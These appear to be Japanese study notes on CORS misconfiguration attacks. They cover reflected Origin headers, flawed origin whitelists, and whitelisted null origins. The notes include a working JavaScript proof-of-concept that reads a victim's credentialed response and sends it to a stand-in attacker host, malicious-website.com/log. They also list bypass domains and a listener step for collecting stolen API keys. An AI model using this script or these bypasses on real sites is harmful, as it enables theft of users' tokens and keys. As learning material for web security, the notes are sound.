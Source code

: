 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 他組織のドメインを許可している場合
			- これは正規表現で実装されていることが多くミスが起きやすい。
- **攻撃の例**
	- アプリケーションが次の文字で終わるすべてのドメインへのアクセスを許可する。
		```
		normal-website.com
		```
	- 上記に対して、攻撃者は以下のドメインでアクセスすることが可能となる。
		```
		hackersnormal-website.com
		もしくは
		normal-website.com.evil-user.net
		```

## 3. ホワイトリストに登録されたnullオリジン値
- Originヘッダーの使用では、null値がサポートされている。
- 以下の特殊な状況において、Originヘッダーでnull値を送信する場合がある。
	- クロスオリジンリダイレクト
	- シリアル化されたデータからのリクエスト
	- `file`プロトコルを使用してリクエストする。
	- サウンドボックス化されたクロスオリジンリクエスト

- ローカル開発をサポートするためにnullオリジンをホワイトリストに登録する場合がある。
	- ローカル環境のが合い`file://home/kali/.../index.html`となるので、CORSが存在しない。その場合に`null`を使用する。(オリジンは、「プロトコル＋ドメイン＋ポート」の組み合わせで決まるしきべ )

---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
